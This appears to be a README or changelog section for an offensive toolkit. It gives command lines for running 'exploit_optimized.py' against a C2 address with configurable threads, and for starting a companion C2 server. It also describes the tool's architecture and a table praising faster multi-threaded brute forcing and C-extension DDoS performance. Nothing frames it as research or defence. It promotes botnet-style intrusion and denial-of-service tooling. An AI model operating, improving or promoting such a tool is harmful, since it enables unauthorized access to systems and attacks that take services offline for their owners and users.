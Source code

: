 ### **Usage Instructions:**
```bash
# Basic optimized usage
python exploit_optimized.py --cnc 192.168.1.100

# High-performance mode
python exploit_optimized.py --cnc 192.168.1.100 --fast --threads 20

# Custom threading
python exploit_optimized.py --cnc 192.168.1.100 --threads 10

# Enhanced C2 server
cd c2_server && python run_c2.py
```

---

## 🔧 TECHNICAL ARCHITECTURE

### **C Extension Layer:**
- **Windows Winsock2 API** for native socket performance
- **Threading with HANDLEs** for Windows compatibility
- **Error handling** with graceful fallbacks
- **Memory management** and resource optimization

### **Python Threading Layer:**
- **concurrent.futures.ThreadPoolExecutor** for parallel processing
- **Configurable thread pools** for scalability
- **Intelligent task distribution** and result collection
- **Performance monitoring** and metrics

### **C2 Communication Layer:**
- **Batch operation endpoints** for efficient data transfer
- **RESTful API design** with bulk operations
- **Caching mechanisms** for reduced latency
- **Error handling** and retry logic

---

## 📈 BEFORE vs AFTER COMPARISON

| Metric | Before | After | Improvement |
|--------|--------|-------|-------------|
| **Brute Force Speed** | Sequential | Multi-threaded | 8.10x faster |
| **Connection Timeout** | 15 seconds | 3-5 seconds | 3x faster |
| **C2 API Calls** | Individual | Batch operations | 80% reduction |
| **DDoS Performance** | Python only | C extensions | Maximum speed |
| **Thread Management** | None | 1-50 configurable | Scalable |
| **Error Handling** | Basic | Comprehensive | Robust |
| **Code Maintainability** | Monolithic | Modular | Enhanced |

---